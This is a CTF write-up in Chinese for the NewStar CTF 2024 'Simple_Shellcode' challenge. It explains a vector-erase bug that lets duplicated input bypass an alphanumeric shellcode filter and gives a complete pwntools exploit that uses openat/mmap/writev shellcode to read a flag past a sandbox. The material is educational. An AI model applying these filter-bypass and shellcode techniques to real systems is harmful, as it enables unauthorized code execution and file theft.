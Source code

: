 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# Simple_Shellcode

程序有两个功能

![运行程序](/assets/images/wp/2024/week5/simple_shellcode_1.png)

一是输入 shellcode，二是运行 shellcode

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+Ch] [rbp-34h] BYREF
  _QWORD v4[6]; // [rsp+10h] [rbp-30h] BYREF

  v4[3] = __readfsqword(0x28u);
  sub_3602();
  sub_BEEE((__int64)v4);
  while ( 1 )
  {
    sub_3A6D();
    std::istream::operator>>(&std::cin, &v3);
    if ( v3 == 1 )
    {
      sub_3ADC((__int64)v4);
    }
    else if ( v3 == 2 )
    {
      sub_3C67(v4);
      sub_3E3A((__int64)v4);
    }
    else
    {
      std::operator<<<std::char_traits<char>>(&std::cout, "浣犲湪鍋氫粈涔堝憿馃槨馃槨馃槨");
    }
  }
}
```

其中，`v4` 是用来存储 shellcode 的 `vector`

```cpp
std::vector<std::string> code;
```

在输入功能中，一次只能输入 8 个字符

检测功能中，如果检测到 shellcode 含有非字母或数字，就会删掉这段 shellcode

```cpp
if ( (unsigned __int8)sub_B9F1(v4, v3) != 1 )
    {
      v8 = sub_C962((__int64)a1);
      v9 = sub_C9AE(&v8, i);
      sub_CA14(&v10, &v9);
      sub_CA42(a1, v10);
      v5 = std::operator<<<std::char_traits<char>>(&std::cout, &unk_F130);
      std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
    }
```

<Container type='tip'>

当然，使用 AE64 直接生成 shellcode 也是可以的
</Container>

```cpp
for (i = 0; i < code.size(); i++) {
    auto line = code[i];
    if (!std::all_of(line.begin(), line.end(), [](char c) {
        return (c >= '0' && c <= '9') || (c >= 'A' && c <= 'Z') || (c >= 'a' && c <= 'z');
    })) {
        code.erase(code.begin() + i);
        std::cout << "想什么呢雑魚, 非字母是不行的😡😡😡" << std::endl;
    }
}
```

```cpp
template<typename _Tp, typename _Alloc>
   typename vector<_Tp, _Alloc>::iterator
   vector<_Tp, _Alloc>::
   _M_erase(iterator __position)
   {
     if (__position + 1 != end())
_GLIBCXX_MOVE3(__position + 1, end(), __position);
     --this->_M_impl._M_finish;
     _Alloc_traits::destroy(this->_M_impl, this->_M_impl._M_finish);
     _GLIBCXX_ASAN_ANNOTATE_SHRINK(1);
     return __position;
   }
```

通过查看 `erase` 的源码，发现 `erase` 是通过将后面的元素 MOVE 到前面，然后 `--finish` 实现的

而在程序实现的删除算法中，`erase` 后没有将 `i--`，这就会导致，如果 `idx=2` 的元素被删除了，`i++`（`i=3`），而 `erase` 会将后面的元素 MOVE 到前面，原本 `idx=3` 的元素会移动到 `idx=2`，这样会导致原本 `idx=3` 的元素绕过检测

也就是说，我们将会被删除的元素输入两次，即可绕过检测

对于沙箱，洒洒水啦：openat + mmap + writev

```python
#!/usr/bin/env python3
from pwn import *
import re

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ru = lambda x: p.recvuntil(x)

k = 1
if k:
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./Simple_Shellcode')
elf = ELF('./Simple_Shellcode')

def debug():
    gdb.attach(p, 'b *$rebase(0x3F50)\nc\n')

def sp_input(byte_str):
    for i in range(0, len(byte_str), 8):
        chunk = byte_str[i : i + 8]

        input(chunk)

        if re.search(rb'[a-zA-Z0-9]', chunk):
            input(chunk)

def input(data):
    sla(b'Choose', b'1')
    sl(data)

def run_code():
    sla(b'Choose', b'2')

shellcode = '''
    mov rsp, rbp
'''
shellcode += shellcraft.openat(-100, "/flag", 0, 0)
shellcode += '''
    mov rdi, 0x777721000
    mov rsi, 0x100
    mov rdx, 1
    mov r10, 2
    mov r8, 3
    mov r9, 0
    mov rax, 9
    syscall
    push 1
    pop rdi
    push 0x1    /* iov size */
    pop rdx
    push 0x100
    mov rbx, 0x777721000
    push rbx
    mov rsi, rsp
    push SYS_writev
    pop rax
    syscall
'''

payload = asm(shellcode)

sp_input(payload)
run_code()

p.interactive()
```
